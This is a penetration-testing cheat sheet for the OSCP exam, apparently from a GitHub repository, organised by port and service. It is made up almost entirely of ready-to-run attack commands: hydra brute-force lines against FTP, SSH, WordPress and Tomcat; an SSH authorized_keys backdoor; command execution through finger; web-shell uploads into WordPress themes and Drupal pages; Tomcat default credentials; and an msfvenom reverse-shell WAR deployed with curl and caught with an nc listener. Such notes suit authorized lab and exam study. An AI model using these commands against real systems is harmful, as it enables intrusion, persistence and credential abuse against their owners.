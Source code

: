 # Welcome to Zamrax's Cheat Sheet for OSCP

## Enumeration:

1. nmapAutomator:
	```
	nmapAutomator.sh -H IP -t All
	```
2. autorecon:
	```
	autorecon IP
	```
3. nmap:
	```
	nmap -T4 -A -p- IP
	```

## Port Enumeration:

### 21 (FTP):
1. Anonymous login is possible:
	```
	ftp IP
	ftp> USER anonymous
	ftp> PASS 
	```
2. View of FTP content:
	```
	ftp://IP
	```
3. Get files from FTP:
	```
	PASSIVE
	BINARY
	get FILE
	```
4. Upload files to FTP:
	```
	PASSIVE
	BINARY
	put FILE
	```
5. Brute force:
	```
	hydra -V -f -L USER_LIST -P /usr/share/wordlists/rockyou.txt ftp://IP -u -vV
	```
6. Vulnerability Scanning:
	```
	nmap -p 21 --script="+*ftp* and not brute and not dos and not fuzzer" -vv -oN ftp IP
	```

### 22 (SSH)
1. Brute Force:
	```
	hydra -V -f -L <USERS_LIST> -P /usr/share/wordlists/rockyou.txt ssh://IP -u -vV
	```
2. Possible Exploit: CVE-2008-0166:
	```
	searchsploit -m 5720
	```
3. Backdoor (might be worth it):
	```
	-> Attacker
	ssh-keygen -f FILE
	chmod 600 FILE
	cat FILE.pub -> copy

	-> Victim
	echo FILE.pub >> PATH/.ssh/authorized_keys

	-> Connect
	ssh -i FILE USER@IP
	```
4. Banner grab:
	```
	ssh root@IP
	```

### 23 (Telnet)
1. Connect:
	```
	telnet IP 23
	```

### 25 (SMTP)
1. Connect:
	```
	nc IP 25
	```
2. User enumeration:
	```
	VRFY USER
	```

### 43 (WHOIS)
1. Connection:
	```
	whois -h IP -p PORT "domain.tld"
	```

### 53 (DNS)
1. Enumeration:
	```
	dnsenum DOMAIN
	dnsrecon -d DOMAIN

	nslookup
	nslookup> server IP
	nslookup> DOMAIN
	```
2. Zone Transfer
	```
	dnsrecon -d DOMAAIN -a
	dig axfr DOMAIN @website
	```
3. DNS Brute force:
	```
	https://github.com/blark/aiodnsbrute
	```

### 69 (TFTP)
1. Enumeration
	```
	nmap -n -Pn -sU -p69 -sV --script tftp-enum IP
	```

### 79 (Finger)
1. User Enumeration
	```
	finger IP
	finger USER@IP
	```
2. Command execution:
	```
	finger "|/bin/id@<IP>"
	finger "|/bin/ls -a /<IP>"
	```

### 80 & 443 (HTTP):
1. Enumeration:
	```
	done by automatic scripts
	```
2. Directory Fuzzing:
- GoBuster:
	```
	gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20
	gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx
	gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx --insecuressl
	```
(might have to use `-k` switch if HTTPS is not trustable)
- Dirbuster
	```
	trivial
	```
	(Do not forget to change file formats and supply correct directory list like above)

**Wordpress**
_Enumeration_
	```
	\# Scan
	wpscan --rua -e --url IP/URL
	\# Brute force users/login
	wpscan --rua --url IP/URL -P /usr/share/wordlists/rockyou.txt -U "USER,USER"
	```
_Theme RCE_
	```
	Appearance -> Editor -> 404 Template (at the right)
	Change the content for a php shell
	https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
	http://<IP>/wp-content/themes/twentytwelve/404.php
	```
	_Plugin RCE_
	Follow this [Link](https://medium.com/swlh/wordpress-file-manager-plugin-exploit-for-unauthenticated-rce-8053db3512ac)
	**Drupal**
	```
	droopescan scan -u IP/URL
	```
	_User Enumeration_
	```
	In /user/register just try to create a username and if the name is already taken it will be notified :
	*The name admin is already taken*
	If you request a new password for an existing username :
	*Unable to send e-mail. Contact the site administrator if the problem persists.*
	If you request a new password for a non-existent username :
	*Sorry, test is not recognized as a user name or an e-mail address.*
	Accessing /user/<number> you can see the number of existing users :
		- /user/1 -> Access denied (user exist)
		- /user/2 -> Page not found (user doesn't exist)
	```
_Hidden Pages Enumeration_
	```
	wfuzz -c -z range,1-500 --hc 404 URL/node/FUZZ
	```
_Panel RCE_
	```
	You need the plugin php to be installed (check it accessing to /modules/php and if it returns a 403 then, exists, if not found, then the plugin php isn't installed)
	Go to Modules -> (Check) PHP Filter  -> Save configuration
	https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
	Then click on Add content -> Select Basic Page or Article -> Write php shellcode on the body -> Select PHP code in Text format -> Select Preview
	```
**Joomla**
_Enumeration_
	```
	joomscan -u URL
	./joomlavs.rb --url URL -a -v
	```
**Tomcat**
_Default Credentials_
	```
	The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :
	\
	admin:admin
	tomcat:tomcat
	admin:<NOTHING>
	admin:s3cr3t
	tomcat:s3cr3t
	admin:tomcat
	```
_Brute Force_
	```hydra -L USER_LIST -P /usr/share/wordlists/rockyou.txt -f IP http-get /manager/html -vV -u```
_Panel RCE_
	```
	\# Generate payload
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war

	\# Upload payload
	Tomcat6 :
	wget 'http://USER:PASSWORD@IP:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

	Tomcat7 and above :
	curl -v -u USER:PASSWORD -T shell.war 'http://IP:8080/manager/text/deploy?path=/shellh&update=true'

	\# Listener
	nc -nvlp PORT

	\# Execute payload
	curl http://IP:8080/shell/
	```
